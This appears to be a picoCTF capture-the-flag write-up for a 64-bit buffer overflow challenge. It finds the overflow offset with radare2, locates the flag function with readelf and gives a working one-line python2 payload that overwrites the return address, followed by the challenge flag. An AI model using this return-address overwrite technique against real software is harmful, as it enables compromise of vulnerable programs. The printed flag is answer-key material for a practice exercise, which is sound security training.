 # NewOverFlow-1

## Problem

> Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this program. You can find it in /problems/newoverflow-1_3_e53f871ba121b62d35646880e2577f89 on the shell server. Source.

* [Program](./vuln)
* [Source](./vuln.c)

## Solution

1. Find the offset/padding
    1. You can use the method described in [rop64](../Binary\ Exploitation/rop64/README.md) with the `cyclic` and `cyclic_find` or you can use the following
    2. Open vuln in [radare2](https://rada.re/r/) with `r2 ./vuln`
    3. Run `aaaa`
    4. Run `pdf @ sym.vuln` to get `var int local_40h @ rbp-0x40`
    5. The `0x40` is the buffer location so 8 more bytes are needed to get past the "saved ebp register"
    6. So the offset is `0x40+8`
2. Run `readelf -s vuln` to get the address of `main` and `flag`.
3. We can not offset and call the `flag` function directly because that would cause a stack misalignment in 64-bit. So instead we form out payload by doing `padding + main_address + flag_address` instead of just `padding + flag_address` as we would in 32-bit.
4. We can use `p64` from pwntools to convert the hex addresses to little endian. 
5. Payload complete: `python2 -c "print 'A'*72 + '\xcb\x07@\x00\x00\x00\x00\x00' + 'g\x07@\x00\x00\x00\x00\x00'" | ./vuln`

### Flag

`picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_bfd48203}`